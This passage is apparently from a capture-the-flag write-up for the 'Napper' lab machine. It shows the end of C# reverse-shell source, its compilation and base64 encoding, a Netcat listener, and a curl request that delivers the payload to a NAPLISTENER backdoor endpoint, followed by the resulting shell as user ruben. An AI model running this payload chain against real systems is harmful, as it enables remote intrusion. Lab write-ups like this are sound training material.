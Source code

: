 ```C#
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

Write it to file and we compile to an executable.

```shell
labadmin@labmachine:~/napper$ mcs -out:payload.exe payload.cs
payload.cs(67,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 1 warning(s)
```

As we know that NAPLISTENER will base64 decode the payload we first have to base64 encode the executable file. And we store it in a environment variable for later easy use.

```shell
labadmin@labmachine:~/napper$ payload=$(base64 -w 0 ./payload.exe)

labadmin@labmachine:~/napper$ echo $payload
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAATAEDAAAAAAAAAAAAAAAAAOAAAgELAQgAAAoAAAAGAAAAAAAAjigAAAAgAAAAQAAAAABAAAAgAAAAAgAABAAAAAAAAAAEAAAAAAAAAACAAAAAAg
...[OMITTED]...
```

Before we send this payload we start our local Netcat listener.

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8000
Listening on 0.0.0.0 8000
```

When we send the payload, let's remember we need to URL encode it.

```shell
labadmin@labmachine:~/napper$ curl -k --data-urlencode "sdafwe3rwe23=$payload" https://napper.htb/ews/MsExgHealthCheckd/
```

And we got reverse shell as ruben.



```shell
labadmin@labmachine:~/napper$ nc -lvnp 8000
Listening on 0.0.0.0 8000
Connection received on 10.10.11.240 49374
Microsoft Windows [Version 10.0.19045.3636]
(c) Microsoft Corporation. All rights reserved.
whoami
C:\Windows\system32>whoami
napper\ruben
```
